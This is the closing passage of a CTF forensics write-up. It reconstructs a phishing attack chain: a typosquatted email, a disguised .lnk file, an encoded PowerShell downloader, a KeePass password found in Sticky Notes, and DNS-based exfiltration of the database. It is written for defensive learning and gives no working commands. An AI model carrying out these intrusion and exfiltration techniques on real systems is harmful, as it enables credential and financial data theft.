

_The payload: one "Homebanking" entry holding a company payment card's number, CVV, and expiry date._

> **Key Artifact:** The reconstructed `protected_data.kdbx` opens to reveal a stored company payment card. The actual target of the whole attack chain, sitting in a database the victim thought was safe.

---

## Reconstructed Attack Chain

Pulled together, the nineteen individual answers line up into one sequence:

1. The attacker sent a phishing email from a typosquatted domain (`bpakcaging.xyz`), relayed through the legitimate ElasticEmail service, targeting a named finance employee with a fake overdue-invoice pretext.
2. The email carried a password-protected ZIP — password included in the body — containing a malicious `.lnk` file disguised as an Excel invoice.
3. Running the shortcut launched a hidden, Base64-encoded PowerShell one-liner that downloaded and ran a second-stage script from attacker infrastructure.
4. On the host, the attacker split their infrastructure by function: one domain for C2, another for hosting tools and payloads, all served from a plain Python HTTP server.
5. The attacker pulled down **Seatbelt** to enumerate the host, then used `sq3.exe` to query the victim's Sticky Notes database — and turned up a KeePass master password written there as plain text.
6. That query result, along with everything else executed, was sent back to the attacker over **HTTP POST**.
7. The attacker located `protected_data.kdbx`, a KeePass database, hex-encoded it, and moved it out in chunks through a loop of **DNS queries** via `nslookup` — a channel unlikely to get the same scrutiny as web traffic.
8. Reassembling the DNS query names and decoding the hex string recovered the full `.kdbx` file. Opening it with the password lifted from Sticky Notes revealed a stored company payment card, the endpoint of the entire operation.


This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect — I'm always happy to discuss techniques and share resources.
